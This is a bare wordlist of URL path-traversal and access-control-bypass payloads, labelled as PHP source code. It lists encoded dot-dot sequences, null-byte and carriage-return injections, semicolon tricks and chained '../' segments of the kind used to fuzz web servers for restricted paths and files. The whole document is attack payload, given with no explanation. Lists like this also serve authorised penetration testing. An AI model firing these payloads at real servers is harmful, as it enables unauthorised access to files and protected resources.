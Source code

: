 ```php
%3b/%2f%2f../
%3b/..
%3b//%2f../
%3f%23
%3f%3f
%3f.php
..
..%00/
..%00/;
..%00;/
..%09
..%0d/
..%0d/;
..%0d;/
..%5c/
..%ff/
..%ff/;
..%ff;/
../
..;%00/
..;%0d/
..;%ff/
..;\
..;\;
..\
..\;
.html
.json
/
/#
/%20
/%20#
/%20%23
/%23
/%252e%252e%252f/
/%252e%252e%253b/
/%252e%252f/
/%252e%253b/
/%252e/
/%252f
/%2e%2e
/%2e%2e%2f/
/%2e%2e%3b/
/%2e%2e/
/%2e%2f/
/%2e%3b/
/%2e%3b//
/%2e/
/%2e//
/%2f
/%3b/
/..
/..%2f
/..%2f..%2f
/..%2f..%2f..%2f
/../
/../../
/../../../
/../../..//
/../..//
/../..//../
/../..;/
/.././../
```